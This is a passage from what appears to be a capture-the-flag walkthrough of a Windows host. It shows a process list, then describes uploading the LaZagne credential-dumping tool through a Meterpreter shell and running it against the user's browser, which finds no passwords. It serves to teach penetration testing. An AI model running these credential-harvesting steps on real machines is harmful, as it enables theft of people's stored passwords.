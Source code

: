     6464  6672  php-cgi.exe                                                
    6564  5908  vmtoolsd.exe                                               
    6584  792   wsmprovhost.exe          x64   0        SUPPORTDESK\Chase  C:\Windows\System32\wsmprovhost.exe
    6672  2896  w3wp.exe                                                   
    6772  612   svchost.exe                                                
    6792  6852  firefox.exe              x64   1        SUPPORTDESK\Chase  C:\Program Files\Mozilla Firefox\firefox.exe
    6808  1468  MpCmdRun.exe                                               
    6852  6676  firefox.exe              x64   1        SUPPORTDESK\Chase  C:\Program Files\Mozilla Firefox\firefox.exe
    6940  612   svchost.exe                                                
    6948  6672  php-cgi.exe                                                
    6988  6852  firefox.exe              x64   1        SUPPORTDESK\Chase  C:\Program Files\Mozilla Firefox\firefox.exe


Our Chase user is running a Firefox Browser. The idea is to see if there is
credentials stored in the browser's password manager. For that we will use
[LaZagne](https://github.com/AlessandroZ/LaZagne/).

## Lazagne

We upload the Lazagne executable using the meterpreter. Then using a shell we
launch LaZagne with the `browsers` parameter.

    :::text
    meterpreter > shell
    Process 3468 created.
    Channel 5 created.
    Microsoft Windows [Version 10.0.17763.437]
    (c) 2018 Microsoft Corporation. All rights reserved.

    C:\Users\Chase\Documents>.\05.exe browsers
    .\05.exe browsers

    |====================================================================|
    |                                                                    |
    |                        The LaZagne Project                         |
    |                                                                    |
    |                          ! BANG BANG !                             |
    |                                                                    |
    |====================================================================|


    [+] 0 passwords have been found.
    For more information launch it again with the -v option

    elapsed time = 0.0
